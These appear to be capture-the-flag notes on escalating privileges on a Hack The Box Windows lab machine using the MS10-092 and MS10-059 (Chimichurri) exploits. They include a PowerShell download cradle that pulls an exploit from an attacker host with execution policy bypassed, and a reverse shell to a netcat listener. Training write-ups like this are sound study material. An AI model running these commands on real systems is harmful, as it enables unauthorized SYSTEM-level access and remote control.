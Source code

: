 ````
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 88 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.085 MB
Virtual Memory: In Use:    963 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
````


## MS10-092 Schelevator


meterpreter : exploit/windows/local/ms10_092_schelevator
=> Admin




## MS10-059 - Chimichurri 

https://www.exploit-db.com/exploits/14610/ : src

https://github.com/Re4son/Chimichurri : .exe
```
wget https://github.com/Re4son/Chimichurri/raw/master/Chimichurri.exe
```

Download chimichurri.exe
````
C:\>echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\>echo $url = "http://10.10.14.30:8000/Chimichurri.exe" >>wget.ps1
C:\>echo $file = "exploit.exe" >>wget.ps1
C:\>echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
````

start a netcat listener, and run the exploit.

````
C:\ColdFusion8>exploit.exe 10.10.14.30 443

/Chimichurri/-->This exploit gives you a Local System shell 
/Chimichurri/-->Changing registry values...
/Chimichurri/-->Got SYSTEM token...
/Chimichurri/-->Running reverse shell...
/Chimichurri/-->Restoring default registry values...
````
